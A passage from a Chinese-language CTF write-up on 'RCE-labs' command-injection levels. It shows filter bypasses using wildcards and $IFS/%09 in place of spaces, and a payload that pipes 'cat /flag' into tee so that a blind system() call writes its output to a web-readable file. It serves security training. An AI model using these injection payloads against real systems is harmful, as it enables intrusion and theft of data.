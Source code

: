 ```php


?>
```

通过代码审计发现过滤掉了flag 和空格 我们可以使用通配符来代替flag %09 $IFS$1 ${IFS} 来代替空格

```php
?cmd=ls%09/
?cmd=cat%09/f???
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737017463577-b16330ce-f83c-4865-a73a-ed0c00ee78f8.png)

### [RCE-labs]Level 8 - 文件描述和重定向
```php
<?php
function hello_shell($cmd){
    /*>/dev/null 将不会有任何回显，但会回显错误，加上 2>&1 后连错误也会被屏蔽掉*/
    system($cmd.">/dev/null 2>&1");
}

isset($_GET['cmd']) ? hello_shell($_GET['cmd']) : null;

highlight_file(__FILE__);


?>
```

题目提示不会有任何的回显 所以我们要想得到信息就得进行外带  可以利用管道符加tee进行文件外带

```php
?cmd=ls /|tee 1.txt
```

接着访问1.txt

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737017849891-43b8f41a-e3a5-4d4e-b797-deb96e4d58fd.png)

发现flag文件接着外带到1.txt中

```php
?cmd=cat /flag|tee 1.txt
```

访问1.txt得到flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737017908540-75271e2c-a4de-4262-aa8e-353c37437f6d.png)

## 利用wsl搭建linux环境过程
参考文章[链接](https://blog.csdn.net/lyh13239510484/article/details/136372701?ops_request_misc=%257B%2522request%255Fid%2522%253A%25220a8607ac81796bcbff91e48626e431be%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=0a8607ac81796bcbff91e48626e431be&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-136372701-null-null.142^v101^pc_search_result_base1&utm_term=%E5%A6%82%E4%BD%95%E6%90%AD%E5%BB%BAlinux%E7%8E%AF%E5%A2%83wsl&spm=1018.2226.3001.4187)
